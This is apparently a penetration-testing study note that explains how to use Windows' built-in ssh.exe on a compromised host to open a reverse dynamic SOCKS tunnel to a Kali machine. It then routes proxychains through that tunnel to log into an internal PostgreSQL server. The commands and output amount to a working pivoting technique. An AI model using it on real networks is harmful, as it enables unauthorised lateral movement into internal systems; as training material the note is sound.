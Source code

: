
# Using `ssh.exe` on Windows
On [Windows](../../../computers/windows/README.md) machines, OpenSSH *client* has been installed by default since version 1803 and since Windows 10. OpenSSH includes `ssh.exe` `sftp.exe` `scp.exe` and other [SSH](../../../networking/protocols/SSH.md) utilities. They're all installed at `%systemdrive%\Windows\System32\OpenSSH` by default.

With the OpenSSH client, we can connect to *any kind of SSH server* (with the right credentials). The [`ssh` command](../../../CLI-tools/ssh-command.md) should have the exact same syntax. For example, to start [remote dynamic port forwarding](../SSH-tunneling/remote-dynamic-port-forwarding.md) from a Windows host to our Kali machine the command is:
```powershell
C:\Users\rdp_admin>ssh -N -R 9998 kali@192.168.118.4
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.118.4' (ECDSA) to the list of known hosts.
kali@192.168.118.4's password:
```
Then, on the Kali machine, we can update `/etc/proxychains4.conf` to use the new SOCKS socket we just created:
```bash
kali@kali:~$ tail /etc/proxychains4.conf             
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```
Just like before, with the SOCKS proxy and proxychains configured, we can run whatever commands we want from our Kali machine (as long as they can handle SOCKS protocol). The SSH remote dynamic port forwarding we initiated *on the compromised Windows host* will forward all of the traffic to whatever target machines we want (as long as it has access to them through the network).
```bash
kali@kali:~$ proxychains psql -h 10.4.50.215 -U postgres  
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.215:5432  ...  OK
Password for user postgres: 
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.50.215:5432  ...  OK
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.